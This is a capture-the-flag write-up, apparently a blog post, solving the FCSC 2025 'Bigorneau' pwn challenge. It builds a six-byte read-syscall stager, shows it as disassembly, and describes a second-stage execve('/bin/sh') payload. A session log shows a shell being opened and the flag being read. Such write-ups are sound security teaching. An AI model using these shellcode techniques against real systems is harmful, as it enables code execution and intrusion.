 ```yaml
---
author: micronoyau
layout: post
date: 2025-04-27 22:00:00 +0200
tags: pwn fcsc shellcode
title: "Bigorneau"
excerpt_separator: <!--more-->
---
```


This challenge is the 3rd most solved pwn challenge at the 2025 edition of the FCSC. We are provided a few resources:
 - an address and a port to connect to
 - the binary (`x86_64` architecture)
 - the source code of the binary
 - a python script that is run on the server

## First steps

### Playing with the service

```
➜  03-bigorneau nc chal.fcsc.fr 2102
Enter your shellcode (hex, at most 128 bytes):
1203980aaaaaa
Please check your inputs.
^C
```

### Analyzing the source code

#### `bigorneau.py`

This script:
 - converts the hex input as bytes
 - checks that there are at most 6 different bytes and less that 0x80 bytes in total
 - inserts some instructions to clear the registers beforehand
 - writes the resulting bytes to a temporary file
 - calls the program with the path to this temporary file as its first argument

#### `bigorneau.c`

The program simply reads the shellcode found at the path of the first argument on the stack, and jumps to it. Since the program is compiled with no NX bit protection on stack, this is fine.

## Solving

### Strategy

In summary, we need to find an `x86_64` shellcode with at most 6 different bytes.

In order to do this, I proceeded in two steps:
 - a first stage shellcode simply reads from user input on the stack (`read(<stack>, 0, <size>)`)
 - the second stage shellcode (a simple `execve("/bin/sh", NULL, NULL)` padded with NOPS at the beginning) can then be sent to overwrite the current instructions

 The real challenge here is to write the first stage shellcode. Hopefully for us, all registers are cleared beforehand (thanks to the script), so `rdi` (the input fd) and `rax` (the syscall number) are already zero (`stdin` fd and `read` syscall number).
 
 Now, let's see what is left to do:
 - somehow move `rsp` to `rsi` -> push/pop instructions are only 1 byte long
 - set `rdx` to a large enough value to allow for the shellcode -> `dl` is enough
 - do a syscall -> 2 bytes

Here is the resulting shellcode:

```
0x00000000      54             push rsp
0x00000001      5e             pop rsi
0x00000002      b2f0           mov dl, 0xf0
0x00000004      0f05           syscall
```

## Result

```
➜  03-bigorneau python expl.py 
[+] Opening connection to chal.fcsc.fr on port 2102: Done
[*] Switching to interactive mode
Enter your shellcode (hex, at most 128 bytes):
$ ls
bigorneau
bigorneau.py
flag.txt
$ cat flag.txt
FCSC{619c629f9dd846fe8f1db9f23693707b7a334ab7da1507dc904b9d5c3fc2a15c}
$ 
```

